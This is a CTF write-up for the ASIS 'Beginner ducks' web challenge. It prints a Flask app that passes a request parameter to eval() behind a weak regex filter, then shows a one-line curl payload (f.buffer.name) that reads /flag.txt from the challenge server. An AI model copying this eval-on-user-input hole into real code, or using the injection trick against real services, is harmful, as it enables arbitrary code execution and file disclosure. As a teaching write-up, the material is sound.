 ```yaml
---
description: WEB | 37 pts - 176 solves
---
```


# Beginner ducks

> Description: Hiiiii, welcome to ASIS CTF. We have ducks. Check them out http://ducks.asisctf.com:8000/. Download source-code from here.

Source code:

```python
#!/usr/bin/env python3
from flask import Flask,request,Response
import random
import re

app = Flask(__name__)
availableDucks = ['duckInABag','duckLookingAtAHacker','duckWithAFreeHugsSign']
indexTemplate = None
flag = None

@app.route('/duck')
def retDuck():
	what = request.args.get('what')
	duckInABag = './images/e146727ce27b9ed172e70d85b2da4736.jpeg'
	duckLookingAtAHacker = './images/591233537c16718427dc3c23429de172.jpeg'
	duckWithAFreeHugsSign = './images/25058ec9ffd96a8bcd4fcb28ef4ca72b.jpeg'

	if(not what or re.search(r'[^A-Za-z\.]',what)):
		return 'what?'

	with open(eval(what),'rb') as f:
		return Response(f.read(), mimetype='image/jpeg')

@app.route("/")
def index():
	return indexTemplate.replace('WHAT',random.choice(availableDucks))

with open('./index.html') as f:
	indexTemplate = f.read() 
with open('/flag.txt') as f:
	flag = f.read()

if(__name__ == '__main__'):
	app.run(port=8000)
```

It's clear that this `eval()` is dangerous, since it'll execute the python code that we pass to the `?what` parameter and return the result in the response. We can verify the vulnerability by running the code locally and passing to it the variable `duckInABag`, which evaluates to: `'./images/e146727ce27b9ed172e70d85b2da4736.jpeg'`, so code will be:

```python
	with open('./images/e146727ce27b9ed172e70d85b2da4736.jpeg','rb') as f:
		return Response(f.read(), mimetype='image/jpeg')
```

and therefore show us the image.\
There's some input filtering with the regex: `[^A-Za-z\.]`; it will only accept letters and the dot symbol. So how can we read `/flag.txt` if `/` isn't allowed?\
We can try to read the file descriptor properties. i.e: `f.buffer.name` will evaluate to: `/flag.txt`.

```shell
$ curl http://ducks.asisctf.com:8000/duck?what=f.buffer.name
ASIS{run-away-ducks-are-coming-🦆🦆}
```
